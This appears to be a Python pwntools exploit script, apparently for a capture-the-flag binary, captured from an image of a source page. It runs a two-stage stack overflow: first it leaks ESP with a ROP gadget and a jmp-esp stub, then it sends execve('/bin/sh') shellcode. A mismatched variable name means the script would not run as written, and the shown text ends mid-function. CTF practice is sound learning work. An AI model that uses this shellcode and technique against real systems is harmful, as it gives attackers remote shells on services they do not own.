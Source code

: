 ```python
if (len(sys.argv) > 1 and sys.argv[1] == '--throwit'):
    remote_connection = True
elif (len(sys.argv) > 1 and sys.argv[1] == '--debug'):
    debug =  True

entry_point = 0x08048060
rop_gadget  = 0x08048087

# Stack pointer is going to get realigned by 20 bytes when we send 20 A's
# but because of ASLR, the alignment is randomly shifted by some value of
# [2A, 3A, 4A, 5A, 6A, 7A, 8A, 9A, AA, ..]
# ESP always ends up as 0xFFFFFF?A and we always need to jump to 0xFFFFFF?4
# So I guess just chose a random offset
offset = 0x3A

# jmp esp
jmp_esp_shellcode = asm('\n'.join([
    'jmp esp',
]), bits=32)

execve_bin_sh_shellcode = asm('\n'.join([
    'push {}'.format(u32('/sh\0')),
    'push {}'.format(u32('/bin')),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]), bits=32)


def exploit(conn):
    _ = conn.recvuntil("Let's start the CTF:")

    # Begin Stage1
    stage1 =  ''
    stage1 += '\x90'*(20-len(jmpesp_shellcode))
    stage1 += jmp_esp_shellcode
    stage1 += p32(rop_gadget)

    print("Stage1: Leaking ESP")
    print("Sending: {}".format(repr(stage1)))
    conn.sendline(stage1)
    
    # Begin Stage2
    leak = u32(conn.recv()[:4])
    print("ESP      : {}".format(hex(leak)))
    print("ESP+{} : {}".format(hex(offset), hex(leak + offset)))

    stage2 =  ''
    stage2 += '\x90'*(20-len(jmpesp_shellcode))
    stage2 += jmp_esp_shellcode
    stage2 += p32(leak + offset)
    stage2 += execve_bin_sh_shellcode

    print("Stage2: Exploiting")
    print("Sending: {}".format(repr(stage2)))
    conn.sendline(stage2)

def throwing_it():

    conn = None
    if remote_connection:
```